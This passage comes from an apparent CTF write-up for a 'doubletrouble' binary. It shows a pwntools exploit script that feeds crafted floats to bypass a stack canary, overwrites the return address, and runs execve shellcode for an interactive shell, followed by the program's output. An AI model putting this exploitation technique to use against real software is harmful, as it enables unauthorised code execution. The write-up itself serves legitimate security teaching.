 ```
   0xffff7cb7:    nop
   0xffff7cb8:    mov    ebx,esp
   0xffff7cba:    mov    al,0xb
   0xffff7cbc:    int    0x80
'''

# Send the amount of floats we will input, and then send the first 5
target.sendline('64')
for i in range(5):

    target.sendline('-1.5846380065386629e+306')#0xff820d8400000000

# Send the value which will trigger the bug to write over heapQt
target.sendline('-23')

# Send the rest of the filler floats
for i in range(51):
    target.sendline('-1.5846380065386629e+306')#0xff820d8400000000

# This is the value which will be between the stack canary, and the double which occupies the return address
target.sendline('3.7857669957336791e-270')#0x0800000000000000

# Send the shellcode blocks
target.sendline(s1)
target.sendline(s2)
target.sendline(s3)
target.sendline(s4)

# Send the double which will reside after the return address double, which will store the address of our shellcode in the last four bytes.
# We have to convert the int to a float, so it's stored in memory correctly
target.sendline("%.19g" % struct.unpack("<d", p64(ret)))

# Send the double which will occupy the return address with the gadget 0x804900a: ret
target.sendline('4.8653382194983783e-270')#0x804900a00000000

# Drop to an interactive shell
target.interactive()
```

When have to run the exploit several times before it works (due to the fact that we need the first byte of the canary to be in a certain range). But once it is, we get this:

```
$ python exploit.py
[+] Starting local process './doubletrouble': pid 7348
[*] Switching to interactive mode
Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: Give me: 0:-1.584638e+306
1:-1.584638e+306
2:-1.584638e+306
3:-1.584638e+306
4:-1.584638e+306
5:-2.300000e+01
6:-1.584638e+306
7:-1.584638e+306
8:-1.584638e+306
9:-1.584638e+306
10:-1.584638e+306
```